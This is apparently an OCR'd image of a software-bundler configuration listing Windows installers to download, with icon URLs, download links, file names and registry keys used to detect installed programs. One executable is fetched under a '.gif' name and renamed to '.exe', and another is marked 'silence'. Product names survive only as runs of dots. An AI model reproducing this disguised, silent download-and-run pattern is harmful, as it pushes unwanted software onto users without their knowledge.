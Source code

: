 ```
Y_4=0
L_4=2
M_4=
X_4=
FN_4=
FU_4=
N_5=......
Z_5=104
O_5=1
D_5=............
I_5=http://xiazai.xiazai2.net/ico/pps.ico
U_5=http://dl.static.iqiyi.com/hz/IQIYIsetup_gaoxin@kb004.exe
F_5=IQIYIsetup_gaoxin@kb004.exe
P_5=
C_5=1
R_5=2
S_5=SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\PPStream
Y_5=0
L_5=0
X_5=

N_6=2345......
Z_6=284
O_6=1
D_6=..........
I_6=http://down.shg20.com/shichangbu/ico/2345Explorer.ico
U_6=http://download.2345.com/union_common/2345explorer_39244138011_Y_silence.exe
F_6=2345explorer_39244138011_Y_silence.exe
P_6=
C_6=2
R_6=2
S_6=SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\2345Explorer
V_6=UninstallString
Y_6=0
L_6=0

N_7=........
Z_7=294
O_7=1
D_7=............
I_7=http://down.shg20.com/shichangbu/ico/qqlive.ico
U_7=http://down.shg20.com/shichangbu/QQliveSetup_30_241.gif
F_7=QQliveSetup_30_241.exe
P_7=
C_7=2
R_7=2
S_7=SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\qqlive
V_7=UninstallString
Y_7=0
L_7=0

N_8=......
Z_8=227
O_8=1
D_8=............
I_8=http://down.shg20.com/shichangbu/ico/ludashi.ico
U_8=http://dl.360safe.com/ludashi/inst_newspread.exe
F_8=inst_newspread.exe
P_8=
C_8=2
R_8=2
S_8=SOFTWARE\LuDaShi
V_8=Setup Path
```